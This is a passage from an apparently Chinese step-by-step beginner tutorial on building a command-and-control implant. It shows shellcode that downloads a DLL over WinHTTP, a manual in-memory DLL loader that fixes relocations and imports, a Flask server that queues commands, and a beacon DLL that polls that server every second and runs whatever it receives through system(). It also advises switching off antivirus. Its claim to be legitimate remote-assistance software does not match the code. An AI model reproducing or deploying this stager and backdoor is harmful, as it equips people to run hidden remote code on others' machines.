// 创建一个请求，获取数据
获取文件大小:`WinHttpQueryHeaders(...)`
得到：`dwContentSize`
dwContentSize就是payload的大小,

```
 // 创建一个请求，获取数据
    hRequest = fnWinHttpOpenRequest(hConnect, strGet, lpUrlComponents.lpszUrlPath, strHTTP, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_REFRESH);
    fnWinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
    fnWinHttpReceiveResponse(hRequest, 0);

    fnWinHttpCloseHandle(hRequest);
    fnWinHttpCloseHandle(hConnect);
    fnWinHttpCloseHandle(hSession);

```

当前仅为请求，还未开始下载
原教程是这样写的：dwContentSize是payload的大小,最后调用WinHttpReadData即可完成一次文件下载

```
pBuffer = fnMalloc(dwContentSize);
ZeroMemory(pBuffer, dwContentSize);
//完成下载
WinHttpReadData(hRequest, pBuffer, dwContentSize, &dwReadBytes);
```

对于零基础啥也不懂的人来说，按照这个教程实操会发现，这个是不可能运行成功的，pBuffer = fnMalloc(dwContentSize);这一句会显示报错e002，且如果完全按照这个教程复制粘贴这些代码，就会存在很多错误！作为零基础的人是根本不懂哪里出问题的，现在来告诉你我认为我发现到的问题（当然我也有可能有错误，必须自己实践操作，不能依赖粘贴复制）：

1. 缺少关键 API，根本没有解析 WinHttpReadData，原教程只加载了：WinHttpOpen、WinHttpSendRequest、WinHttpReceiveResponse
2. fnMalloc 根本不存在，前面只解析了 memcpy，但没有定义 / 解析 malloc
3. 没有声明pBuffer
4. 两种调用方式混在一起了，`WinHttpReadData(hRequest, pBuffer, dwContentSize, &dwReadBytes)`是 直接调用 API,但是没有链接Winhttp.lib,所以链接器找不到它,会报错LNK2001
5. 要删掉`ZeroMemory(pBuffer, dwContentSize);`因为在 shellcode 里：ZeroMemory 不是一个真正的函数，它其实是个 宏：`#define ZeroMemory(Destination,Length) memset((Destination),0,(Length))`，也就是说ZeroMemory → memset。在普通程序里：memset 来自 C 运行库（CRT），编译器会自动帮你链接（比如 msvcrt.dll），但是在shellcode里，它没有导入表、CRT，没有自动链接，因此对 shellcode 来说，memset 根本不存在！这也是之前我们提到的：需要把
   `_URL_INFO url = { 0 };`
   `URL_COMPONENTSW lpUrlComponents = { 0 };`
   要改为：
   `_URL_INFO url`
   `URL_COMPONENTSW lpUrlComponents`
   的原因——因为`= {0} `会让编译器自动生成memset！！！！

询问ai说到，并不推荐使用malloc，同时原教程也在后面也改用了rawBuffer、VirtualAlloc，所以别慌张，这不是你的问题，别气馁！一步步进行下去！！！

我是这样的改的：
加上了

```
    typedef void* (WINAPI* mallocT)(size_t);
    typedef BOOL(WINAPI* WinHttpReadDataT)(
        IN HINTERNET hRequest,
        _Out_writes_bytes_to_(dwNumberOfBytesToRead, *lpdwNumberOfBytesRead) __out_data_source(NETWORK) LPVOID lpBuffer,
        IN DWORD dwNumberOfBytesToRead,
        OUT LPDWORD lpdwNumberOfBytesRead);
    typedef void* (WINAPI* memcpyT)(
        _Out_writes_bytes_all_(_Size) void* _Dst,
        _In_reads_bytes_(_Size)       void const* _Src,
        _In_                          size_t      _Size);
    void* pBuffer = nullptr;
```

```
    constexpr char strWinHttpReadData[] = "WinHttpReadData";
    constexpr char strMemcpy[] = "memcpy";
    constexpr char strMalloc[] = "malloc";
    constexpr char strMsvcrt[] = "msvcrt.dll";
```

```
    mallocT fnMalloc = (mallocT)fnGetProcAddress(fnLoadlibrary(strMsvcrt), strMalloc);
    WinHttpReadDataT fnWinHttpReadData = (WinHttpReadDataT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpReadData);
    memcpyT fnMemcpy = (memcpyT)fnGetProcAddress(fnLoadlibrary(strMsvcrt), (char*)strMemcpy);
```

然后把原教程的这一段

```
    pBuffer = fnMalloc(dwContentSize);
    ZeroMemory(pBuffer, dwContentSize);
    //完成下载
    WinHttpReadData(hRequest, pBuffer, dwContentSize, &dwReadBytes);
```

改为

```
    pBuffer = fnMalloc(dwContentSize);
    ZeroMemory(pBuffer, dwContentSize);
    //完成下载
    fnWinHttpReadData(hRequest, pBuffer, dwContentSize, &dwReadBytes);
```

并放在这一段之前

```
    fnWinHttpCloseHandle(hRequest);
    fnWinHttpCloseHandle(hConnect);
    fnWinHttpCloseHandle(hSession);
```

现在运行一下，然后把正确的shellcode填进去（图片没截全，但是你懂得就行）

现在就需要用到hfs了，我们双击hfs.exe，会弹出powershell弹窗还有一个网页，如图下
我们点击网页的侧栏中的`share files`，
点击加号`+`，
随便放一个文件，
然后改名为duck，
点击`保存`

现在我们点击运行，可以看到这些弹窗

接着我们点击hfs网页，看日志log，没错，我们成功下载了duck

完美，现在我们可以开启下一步了！！

## 三、beacon编写，手动把 DLL 加载到内存并执行

首先我们先尝试写一个正常的dll,然后用信息框弹出一个hello world,用vs新建一个项目叫做beacon
由于前面shellcode 是 x86的，因此此时写的 DLL 也必须是 x86，因此需要把beacon改成x86-release,并关闭安全选项
MD改成MT
如图




因为MD是动态链接,体积是很小,而其他机子可能没有正常加载这些 DLL、没有初始化 CRT，同时可能目标机器没有这些库
MT是全打包,不依赖外部 CRT，就能够支持
| 条件 | 原因 |
| ------- | ------------ |
| x86 | 架构一致 |
| Release | 去掉调试依赖 |
| 关闭安全选项 | 避免 cookie 崩溃 |
| MT | 全打包，不依赖外部 CRT |

配置完后,编写我们的第一个beacon hello world:

```
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        MessageBoxA(NULL, "hello i am beacon", NULL, NULL);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```



### 加载beacon

现在，捋清楚我们要干啥？
首先，DLL 不能直接执行，因为它不是一段完整的可执行代码，和shellcode相比，DLL 本质不同：shellcode 是纯代码，可以直接执行；而DLL是一个结构化文件（PE），且当前

1. 内存没展开
2. 从错误位置执行
3. 地址没修正
4. API 没填
5. 没正确调用入口
6. 环境不完整

因此不能直接执行。

所以，DLL 运行前必须做4件事：

- 展开内存（按节区重新排布）
- 重定位（修正地址）
- 修复导入表（让 API 能用）
- 调用入口（DllMain）

所以接下去我们就：

1. 下载 DLL → rawBuffer（文件原始数据）

2. 解析 PE 结构（读头）

3. 申请真正运行用的内存（imageBuffer）

4. 把 DLL “展开”到内存

5. 重定位（解决地址变化）

6. 修复导入表（让 API 能用）

7. 调用 DLL 入口（DllMain）

#### 申请一块raw内存

```
// 创建一个请求，获取数据
    hRequest = fnWinHttpOpenRequest(hConnect, strGet, lpUrlComponents.lpszUrlPath, strHTTP, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_REFRESH);
    fnWinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
    fnWinHttpReceiveResponse(hRequest, 0);
    typedef LPVOID(WINAPI* VirtualAllocT)(
        _In_opt_ LPVOID lpAddress,
        _In_     SIZE_T dwSize,
        _In_     DWORD flAllocationType,
        _In_     DWORD flProtect);
    constexpr char strVirtualAlloc[] = "VirtualAlloc";
    VirtualAllocT fnVirtualAlloc = (VirtualAllocT)fnGetProcAddress((HMODULE)kernel32_base, (char*)strVirtualAlloc);
    //别介意代码风格突变,这是另外一个项目复制粘贴的.
    const auto fileSize = dwContentSize;
    void* rawBuffer = fnVirtualAlloc(NULL, fileSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    fnWinHttpReadData(hRequest, rawBuffer, fileSize, &dwReadBytes);
```




#### 解析PE头

```
    //把之前的链接关掉
    fnWinHttpCloseHandle(hRequest);
    fnWinHttpCloseHandle(hConnect);
    fnWinHttpCloseHandle(hSession);

    PIMAGE_DOS_HEADER pIDH = (PIMAGE_DOS_HEADER)rawBuffer;
    PIMAGE_NT_HEADERS pINH = (PIMAGE_NT_HEADERS)((LPBYTE)rawBuffer + pIDH->e_lfanew);
```




#### 解析到PE头后,拿到真实大小

```
    void* imageBuffer = fnVirtualAlloc(NULL, pINH->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    fnMemcpy(imageBuffer, rawBuffer, pINH->OptionalHeader.SizeOfHeaders);
```



#### 展开PE,拷贝raw内存的数据到更大的内存里面

```
    PIMAGE_SECTION_HEADER pISH = (PIMAGE_SECTION_HEADER)(pINH + 1);

    for (size_t i = 0; i < pINH->FileHeader.NumberOfSections; i++)
    {
        fnMemcpy((PVOID)((LPBYTE)imageBuffer + pISH[i].VirtualAddress), (PVOID)((LPBYTE)rawBuffer + pISH[i].PointerToRawData), pISH[i].SizeOfRawData);
    }
```



#### 重定位

```
//重定位
    DWORD delta = (DWORD)((LPBYTE)imageBuffer - pINH->OptionalHeader.ImageBase); // Calculate the delta
    PIMAGE_BASE_RELOCATION pIBR = (PIMAGE_BASE_RELOCATION)((LPBYTE)imageBuffer + pINH->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
    while (pIBR->VirtualAddress)
    {
        if (pIBR->SizeOfBlock >= sizeof(IMAGE_BASE_RELOCATION))
        {
            DWORD count = (pIBR->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(WORD);
            PWORD list = (PWORD)(pIBR + 1);

            for (size_t i = 0; i < count; i++)
            {
                if (list[i])
                {
                    PDWORD ptr = (PDWORD)((LPBYTE)imageBuffer + (pIBR->VirtualAddress + (list[i] & 0xFFF)));
                    *ptr += delta;
                }
            }
        }

        pIBR = (PIMAGE_BASE_RELOCATION)((LPBYTE)pIBR + pIBR->SizeOfBlock);
    }
```



#### 修复导入表

```
//导入表修复
    PIMAGE_IMPORT_DESCRIPTOR pIID = (PIMAGE_IMPORT_DESCRIPTOR)((LPBYTE)imageBuffer + pINH->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress);
    while (pIID->Characteristics)
    {
        PIMAGE_THUNK_DATA OrigFirstThunk = (PIMAGE_THUNK_DATA)((LPBYTE)imageBuffer + pIID->OriginalFirstThunk);
        PIMAGE_THUNK_DATA FirstThunk = (PIMAGE_THUNK_DATA)((LPBYTE)imageBuffer + pIID->FirstThunk);

        HANDLE hModule = fnLoadlibrary((LPCSTR)imageBuffer + pIID->Name);

        while (OrigFirstThunk->u1.AddressOfData)
        {
            if (OrigFirstThunk->u1.Ordinal & IMAGE_ORDINAL_FLAG)
            {
                // Import by ordinal

                DWORD Function = (DWORD)fnGetProcAddress((HMODULE)hModule, (char*)(OrigFirstThunk->u1.Ordinal & 0xFFFF));
                FirstThunk->u1.Function = Function;
            }

            else
            {
                // Import by name
                PIMAGE_IMPORT_BY_NAME pIBN = (PIMAGE_IMPORT_BY_NAME)((LPBYTE)imageBuffer + OrigFirstThunk->u1.AddressOfData);
                DWORD Function = (DWORD)fnGetProcAddress((HMODULE)hModule, (char*)pIBN->Name);

                FirstThunk->u1.Function = Function;
            }

            OrigFirstThunk++;
            FirstThunk++;
        }

        pIID++;
    }
```



#### 运行

```
//一切就绪 call一下entry
    typedef BOOL(WINAPI* PDLL_MAIN)(HMODULE, DWORD, PVOID);
    PDLL_MAIN EntryPoint = (PDLL_MAIN)((LPBYTE)imageBuffer + pINH->OptionalHeader.AddressOfEntryPoint);
    EntryPoint((HMODULE)imageBuffer, DLL_PROCESS_ATTACH, NULL); // Call the entry point
```


接着把上面的地址改为http://192.168.1.5/beacon.dll


现在我们就又要用到hfs了，双击hfs.exe，然后把beacon.dll上传

开启调用

点击运行

当当当当！！！我们成功了！



## 四、服务器编写

进行到这一步，我们要做好以下准备：

1. 准备好python3,并把pip的源换成国内的
2. 安装好flask（在1的基础上在命令行输入python -m pip install flask，即可安装好flask）
3. vscode

为什么要用 Flask？
因为 咱们是零基础小白，而python + HTTP 更简单，能更快上手！

Flask 是一个“用 Python 写 Web 服务”的框架，可以帮咱们快速写一个网站 / 接口服务器

### flask的第一个hello world

新建一个.py文件，复制粘贴下面这坨代码：

```
from flask import Flask
app = Flask(__name__)


@app.route("/")
def root():
    return '你好世界'


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0")
```

#### 逐行解释分析

1. 创建 Flask 应用

```
app = Flask(__name__)
```

相当于：创建一个“服务器对象”

2. 定义接口（重点！）

```
@app.route("/")
```

意思是：当别人访问http://你的IP:5000/, 就执行下面这个函数

```
def root():
    return '你好世界'
```

本质就是：URL → 对应一个函数 → 返回结果

3. 启动服务器

```
app.run(debug=True, host="0.0.0.0")
```

| 参数         | 作用                   |
| ------------ | ---------------------- |
| debug=True   | 开发模式（报错更清晰） |
| host=0.0.0.0 | 允许外部访问           |


ok，回到操作
我们打开控制台输入python 你的py文件名.py

网页访问url


当当当当！“你好世界”就映入眼帘了！

现在我们先捋顺思路,了解一些概念：

**接口（API）**
后面会出现的：

```
/api/v1/client/get_cmd
/api/v1/server/send_cmd
```

这些都叫：接口（API） = 一个 URL 对应一个功能

**HTTP 通信模型的整体流程**

1. 客户端轮询

```
GET /api/v1/client/get_cmd
```

客户端来拿命令:`/api/v1/client/get_cmd`

服务端返回：

```
密码|命令
```

2. 客户端执行命令

3. 客户端把结果发回来

```
POST /api/v1/server/get_respone
```

客户端执行完，上传结果:`/api/v1/server/get_respone`
body = 执行结果

4. 服务端查看结果

```
GET /api/v1/server/get_client_respone
```

5. 服务端下发命令

```
GET /api/v1/server/send_cmd?key=xxx&cmd=xxx
```

---

由于我们都是零基础小白，我们这里就使用最传统的结构,也就是文本分隔符
定为：
客户端的密码|指令

```
密码 | 指令

1111|dir
```

客户端在密码正确的情况下返回回显

1111 = 密码（验证身份）
dir = 要执行的命令

！我们没有在做C2,我们在做的是合法的远程协助软件.合法的远程协助是需要客户端的密码的，这样代表是授权了！

综上，我们需要干什么？

- 我们需要有个接口让客户端不断循环访问,接受命令然后执行
- 我们需要有个接口让客户端执行完毕后返回回显给我们
- 我们需要有个接口让我们能输入命令

---

ok，知道了要干什么，我们就继续

### 客户端 -> 服务端接口

复制粘贴下面这坨到py文件里

```
@app.route('/api/v1/client/get_cmd', methods=['GET'])
def client_get_cmd():
    return "这是命令"
```


啥意思？：客户端访问/api/v1/client/get_cmd的时候,执行方法
client_get_cmd，返回一个”这是命令”

把这个代码放到上面空白的地方后,访问http://xxxxxx/api/v1/client/get_cmd
应该看得到这个接口的返回值了:


然后我们需要定义一个全局变量（供后续操作）,`g_cmd = ""`就是一个全局变量，可以理解为： “当前要执行的命令”,`return g_cmd`把我们输出的内容替换成这个变量,客户端拿到的就是真实命令

```
from flask import Flask
app = Flask(__name__)
g_cmd = ""
@app.route('/api/v1/client/get_cmd', methods=['GET'])
def client_get_cmd():
    global g_cmd
    return g_cmd
@app.route("/")
def root():
    return '你好世界'
if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0")
```


为什么这里必须用“全局变量”？

因为：我们的程序有多个接口（函数）,它们之间需要“共享数据”,所以必须有一个所有函数都能访问的地方
比如：

```
/send_cmd（设置命令）
/get_cmd（获取命令）
```

这就是：全局变量

### 客户端执行结果 -> 服务端

客户端执行完代码后,要给服务端发送回显代码,
操作同上,只不过这次不能用get的方法,而要用post:
为什么用 POST？
我们看看get和post对比
| GET | POST |
| ------- | ------------ |
| 放在 URL | 放在请求体body |
| 长度有限 | 可以很大 |
| 不适合复杂数据 | 适合 |

回显有很多字符串不能在url显示，且url有显示的上限，所以我们选择用POST

```
g_respone = ""

@app.route('/api/v1/server/get_respone', methods=['POST'])
def server_get_respone():
    global g_respone
    g_respone = request.data.decode()
    return "1337"
```



### 服务端输入命令&服务端获取回显

我们继续复制粘贴下面这托，跟第一步一样的做法：

```
@app.route('/api/v1/server/send_cmd', methods=['GET'])
def client_send_cmd():
    global g_cmd
    g_cmd = request.args.get('key') + "|" + request.args.get('cmd')
    return {'success': True, 'cmd': g_cmd}
```

这个接口是干嘛的？——让你通过浏览器（或前端页面）输入命令
request.args.get('key')意思：从 URL 里取参数 key 的值
等价于：

```
key = "1111"
cmd = "dir"
```

return {'success': True, 'cmd': g_cmd}这里返回了json,因为我们后续要用js渲染一些东西.

服务端获取回显（get_client_respone）

```
@app.route('/api/v1/server/get_client_respone', methods=['GET'])
def server_get_client_respone():
    global g_respone
    return g_respone
```

### 测试

打开控制台输入python 你的py文件名.py，启动，如下图

接着浏览器访问
http://xxxxx（你的IP地址）:5000/api/v1/server/send_cmd?key=1111&cmd=dir
就可以看到：


```
{
  "cmd": "1111|dir",
  "success": true
}
```

然后继续访问http://xxxxxx:5000/api/v1/client/get_cmd
就会返回你刚刚输入的命令和密钥


```
1111|dir
```

很好，到这里，你已经几乎要成功了！你做得很好！！！

## 五、客户端的第一个指令

是时候把“客户端”真正接上之前写的 Flask 服务端了！

插个题外话，或许你想问，为什么？为什么我们要这样干，为什么必须“客户端主动连接”？
为什么不让服务端主动连客户端？
因为现实中：你的电脑在内网（NAT）、没有公网IP、防火墙阻止外部连接
服务端根本连不上你，所以！就得让客户端主动去问服务端（轮询）
这就叫：反向连接 / 轮询模型

ok，回到正题，干活之前，我们先捋清楚思路，列下需求：

1. 循环连接服务器（循环请求）
2. 校验服务端的密码（防止乱连）
3. 执行服务器下发的命令
4. 回显给服务端（把结果发回服务器）

### 循环链接服务端

为了方便我们上手，这里使用winhttp作为链接工具.
这里是一个简单的winhttp封装,只实现了get方法,没有使用post所以不能回显。
继续复制粘贴吧

```
#define WINHTTP_STACK_LIMIT 64
typedef struct _winhttp_url_custom_stack {
    wchar_t szScheme[WINHTTP_STACK_LIMIT];
    wchar_t szHostName[WINHTTP_STACK_LIMIT];
    wchar_t szUserName[WINHTTP_STACK_LIMIT];
    wchar_t szPassword[WINHTTP_STACK_LIMIT];
    wchar_t szUrlPath[WINHTTP_STACK_LIMIT];
    wchar_t szExtraInfo[WINHTTP_STACK_LIMIT];
} _winhttp_url_custom_stack;

namespace Winhttp {
auto initParams(URL_COMPONENTS* urlParams,
                _winhttp_url_custom_stack* inputParams) -> void {
    urlParams->dwStructSize = sizeof(URL_COMPONENTS);
    urlParams->lpszExtraInfo = inputParams->szExtraInfo;
    urlParams->lpszHostName = inputParams->szHostName;
    urlParams->lpszPassword = inputParams->szPassword;
    urlParams->lpszScheme = inputParams->szScheme;
    urlParams->lpszUrlPath = inputParams->szUrlPath;
    urlParams->lpszUserName = inputParams->szUserName;

    urlParams->dwExtraInfoLength = urlParams->dwHostNameLength =
        urlParams->dwPasswordLength = urlParams->dwSchemeLength =
            urlParams->dwUrlPathLength = urlParams->dwUserNameLength =
                WINHTTP_STACK_LIMIT;
}
auto Get(std::wstring url, void** outBuffer, size_t& outBufferSize) -> bool {
    _winhttp_url_custom_stack winHttpStack = {0};
    URL_COMPONENTS urlParams = {0};
    HINTERNET httpSession = 0, httpConnectHandle = 0, httpRequest = 0;
    initParams(&urlParams, &winHttpStack);
    void* buffer = nullptr;
    size_t bufferSize = 0;
    size_t readSize = 0;
    size_t realySize = 0;
    bool status = false;
    DWORD headBufferSize = sizeof(headBufferSize), headContextSize,
          headIndex = 0;
    do {
        auto httpStatus =
            WinHttpCrackUrl(url.c_str(), url.size(), ICU_DECODE, &urlParams);
        if (httpStatus == false) {
            break;
        }
        httpSession =
            WinHttpOpen(NULL, WINHTTP_ACCESS_TYPE_NO_PROXY, NULL, NULL, 0);
        if (httpSession == 0) {
            break;
        }
        httpConnectHandle = WinHttpConnect(httpSession, urlParams.lpszHostName,
                                           urlParams.nPort, 0);
        if (httpConnectHandle == 0) {
            break;
        }

        httpRequest = WinHttpOpenRequest(
            httpConnectHandle, L"GET", urlParams.lpszUrlPath, L"HTTP/1.1",
            WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES,
            WINHTTP_FLAG_REFRESH);
        if (httpRequest == 0) {
            break;
        }
        if (WinHttpSendRequest(httpRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0,
                               WINHTTP_NO_REQUEST_DATA, 0, 0, 0) == false) {
            break;
        }
        if (WinHttpReceiveResponse(httpRequest, 0) == false) {
            break;
        }
        if (WinHttpQueryDataAvailable(
                httpRequest, reinterpret_cast<LPDWORD>(&realySize)) == false) {
            break;
        }
        buffer = malloc(realySize);
        if (buffer == nullptr) {
            break;
        }
        memset(buffer, 0, realySize);
        bufferSize = realySize;
        if (WinHttpReadData(httpRequest, buffer, realySize,
                            reinterpret_cast<LPDWORD>(&realySize)) == false) {
            break;
        }
        status = true;
    } while (false);
    if (status) {
        *outBuffer = buffer;
        outBufferSize = bufferSize;
    } else {
        if (buffer != nullptr) {
            free(buffer);
        }
    }
    // close
    if (httpRequest != 0) {
        WinHttpCloseHandle(httpRequest);
    }
    if (httpConnectHandle != 0) {
        WinHttpCloseHandle(httpConnectHandle);
    }
    if (httpSession != 0) {
        WinHttpCloseHandle(httpSession);
    }
    return status;
}
}  // namespace Winhttp
```

上面这一大坨：WinHttpOpen → WinHttpConnect → WinHttpOpenRequest → Send → Receive → Read
其实就是用 Windows 自带库实现 HTTP 请求

复制粘贴完上面这一对代码后，会显示


在头部加上这面这一坨声明和链接库就能解决

```
#include <Windows.h>
#include <winhttp.h>
#include <string>
#include <vector>
#include <random>
#pragma comment(lib, "winhttp.lib")
```



#### 分析

**解析 URL**

```
WinHttpCrackUrl(...)
```

**打开会话**

```
WinHttpOpen(...)
```

**连接服务器**

```
WinHttpConnect(...)
```

**创建请求**
发 GET 请求

```
WinHttpOpenRequest(...)
```

**发送请求**
把请求发出去

```
WinHttpSendRequest(...)
```

**接收响应**

```
WinHttpReceiveResponse(...)
```

**读取数据**
把服务器返回的内容读出来

```
WinHttpReadData(...)
```

为什么要用malloc？

```
buffer = malloc(realySize);
```

因为我们不知道服务器返回多大数据,必须先问大小、再申请内存、再读取

要注意的是不能在 DLL_PROCESS_ATTACH 直接用 WinHTTP，否则会造成死锁！AI说是因为DLL 加载时，Windows正在加载各种系统库处于“锁定状态”，而 WinHTTP也会加载 DLL，也会用锁，这样他俩就互相等，就造成了死锁
所以我们要新建一个线程启动，而在shellcode中不存在这个问题
复制粘贴下面这坨代码

```
auto easyCreateThread(void* pFunctionAddress, void* pParams) -> HANDLE {
    return CreateThread(
        NULL, NULL, reinterpret_cast<LPTHREAD_START_ROUTINE>(pFunctionAddress),
        static_cast<LPVOID>(pParams), NULL, NULL);
}
auto Work() -> void {
    easyCreateThread(reinterpret_cast<void*>(loopWork), nullptr);
}
```

**循环请求服务端等待消息**
在线程启动后,我们需要循环请求服务端的消息,为了避免快速请求导致服务器炸掉,所以我们加上slepep会每1秒请求一次。
此外,为了安全与合法,我们需要在客户端生成随机字符串作为key，只有服务端的key和客户端key对的上才能链接——即，只有在客户端同意的情况下，服务端才能链接上客户端

```
namespace Auth {
std::string localKey;
auto strRand(int length) -> std::string {
    char tmp;
    std::string buffer;
    std::random_device rd;
    std::default_random_engine random(rd());
    for (int i = 0; i < length; i++) {
        tmp = random() % 36;
        if (tmp < 10) {
            tmp += '0';
        } else {
            tmp -= 10;
            tmp += 'A';
        }
        buffer += tmp;
    }
    return buffer;
}
bool CheckPassword(std::string key) { return key == localKey; }
void Init() { localKey = strRand(6); }
}  // namespace Auth
```

每个客户端生成一个6位密码`localKey = strRand(6);`

和之前的组合在一起，下面的地址要改成你自己的IP地址
http://xxxxx（你自己的IP地址）/api/v1/client/get_cmd

```
    namespace Beacon {
    void loopWork() {
        static const std::wstring cmdUrl =
            L"http://192.168.1:5000/api/v1/client/get_cmd";
        Auth::Init();
        printf("你的本地密钥是: %s 请不要随便分享给其他人/n",
            Auth::localKey.c_str());
        do {
            void* buffer = nullptr;
            size_t bufferSize = 0;

            bool status = Winhttp::Get(cmdUrl, &buffer, bufferSize);
            if (status && buffer != nullptr) {
                std::string serverCmd =
                    std::string(reinterpret_cast<char*>(buffer), bufferSize);
                if (serverCmd.size() > 0) {
                    std::string key = serverCmd.substr(0, 6);
                    if (Auth::CheckPassword(key)) {
                        std::string cmd = serverCmd.substr(7, serverCmd.size());
                        printf("cmd: %s /n", cmd.c_str());
                        system(cmd.c_str());
                    }
                }
                free(buffer);
            }
            Sleep(1000);
        } while (true);
    }
```

启动beacon
把原来的

```
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        MessageBoxA(NULL, "hello i am beacon", NULL, NULL);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

改为

```
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call,
    LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        Beacon::Work();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```


beacon写好后保存生成方案


打开hfs，在网页上传新的beacon.dll并保存

这一切工作做好后，运行shellcode-2，（如果运行不了就关掉杀毒软件再运行）可以看到生成的密码

http://192.168.1.5:5000/api/v1/server/send_cmd?key=7IXPFE&cmd=duck


访问
http://127.0.0.1:5000/api/v1/client/get_cmd
应该会返回刚刚输入的命令和密钥

坚持到这里的你做到了！！

---

以下是shellcode、beacon.dll、main.py的完整代码：

shellcode的完整代码如下：

```
// shellcode-2.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//

#include <iostream>
#include <Windows.h>
#include <Winhttp.h>
#define DEREF( name )*(UINT_PTR *)(name)
#define DEREF_64( name )*(unsigned __int64 *)(name)
#define DEREF_32( name )*(unsigned long *)(name)
#define DEREF_16( name )*(unsigned short *)(name)
#define DEREF_8( name )*(UCHAR *)(name)
typedef struct _UNICODE_STR
{
    USHORT Length;
    USHORT MaximumLength;
    PWSTR pBuffer;
} UNICODE_STR, * PUNICODE_STR;

// WinDbg> dt -v ntdll!_PEB_LDR_DATA
typedef struct _PEB_LDR_DATA //, 7 elements, 0x28 bytes
{
    DWORD dwLength;
    DWORD dwInitialized;
    LPVOID lpSsHandle;
    LIST_ENTRY InLoadOrderModuleList;
    LIST_ENTRY InMemoryOrderModuleList;
    LIST_ENTRY InInitializationOrderModuleList;
    LPVOID lpEntryInProgress;
} PEB_LDR_DATA, * PPEB_LDR_DATA;

// WinDbg> dt -v ntdll!_PEB_FREE_BLOCK
typedef struct _PEB_FREE_BLOCK // 2 elements, 0x8 bytes
{
    struct _PEB_FREE_BLOCK* pNext;
    DWORD dwSize;
} PEB_FREE_BLOCK, * PPEB_FREE_BLOCK;


// struct _PEB is defined in Winternl.h but it is incomplete
// WinDbg> dt -v ntdll!_PEB
typedef struct __PEB // 65 elements, 0x210 bytes
{
    BYTE bInheritedAddressSpace;
    BYTE bReadImageFileExecOptions;
    BYTE bBeingDebugged;
    BYTE bSpareBool;
    LPVOID lpMutant;
    LPVOID lpImageBaseAddress;
    PPEB_LDR_DATA pLdr;
    LPVOID lpProcessParameters;
    LPVOID lpSubSystemData;
    LPVOID lpProcessHeap;
    PRTL_CRITICAL_SECTION pFastPebLock;
    LPVOID lpFastPebLockRoutine;
    LPVOID lpFastPebUnlockRoutine;
    DWORD dwEnvironmentUpdateCount;
    LPVOID lpKernelCallbackTable;
    DWORD dwSystemReserved;
    DWORD dwAtlThunkSListPtr32;
    PPEB_FREE_BLOCK pFreeList;
    DWORD dwTlsExpansionCounter;
    LPVOID lpTlsBitmap;
    DWORD dwTlsBitmapBits[2];
    LPVOID lpReadOnlySharedMemoryBase;
    LPVOID lpReadOnlySharedMemoryHeap;
    LPVOID lpReadOnlyStaticServerData;
    LPVOID lpAnsiCodePageData;
    LPVOID lpOemCodePageData;
    LPVOID lpUnicodeCaseTableData;
    DWORD dwNumberOfProcessors;
    DWORD dwNtGlobalFlag;
    LARGE_INTEGER liCriticalSectionTimeout;
    DWORD dwHeapSegmentReserve;
    DWORD dwHeapSegmentCommit;
    DWORD dwHeapDeCommitTotalFreeThreshold;
    DWORD dwHeapDeCommitFreeBlockThreshold;
    DWORD dwNumberOfHeaps;
    DWORD dwMaximumNumberOfHeaps;
    LPVOID lpProcessHeaps;
    LPVOID lpGdiSharedHandleTable;
    LPVOID lpProcessStarterHelper;
    DWORD dwGdiDCAttributeList;
    LPVOID lpLoaderLock;
    DWORD dwOSMajorVersion;
    DWORD dwOSMinorVersion;
    WORD wOSBuildNumber;
    WORD wOSCSDVersion;
    DWORD dwOSPlatformId;
    DWORD dwImageSubsystem;
    DWORD dwImageSubsystemMajorVersion;
    DWORD dwImageSubsystemMinorVersion;
    DWORD dwImageProcessAffinityMask;
    DWORD dwGdiHandleBuffer[34];
    LPVOID lpPostProcessInitRoutine;
    LPVOID lpTlsExpansionBitmap;
    DWORD dwTlsExpansionBitmapBits[32];
    DWORD dwSessionId;
    ULARGE_INTEGER liAppCompatFlags;
    ULARGE_INTEGER liAppCompatFlagsUser;
    LPVOID lppShimData;
    LPVOID lpAppCompatInfo;
    UNICODE_STR usCSDVersion;
    LPVOID lpActivationContextData;
    LPVOID lpProcessAssemblyStorageMap;
    LPVOID lpSystemDefaultActivationContextData;
    LPVOID lpSystemAssemblyStorageMap;
    DWORD dwMinimumStackCommit;
} _PEB;

typedef struct _LDR_DATA_TABLE_ENTRY
{
    //LIST_ENTRY InLoadOrderLinks; // As we search from PPEB_LDR_DATA->InMemoryOrderModuleList we dont use the first entry.
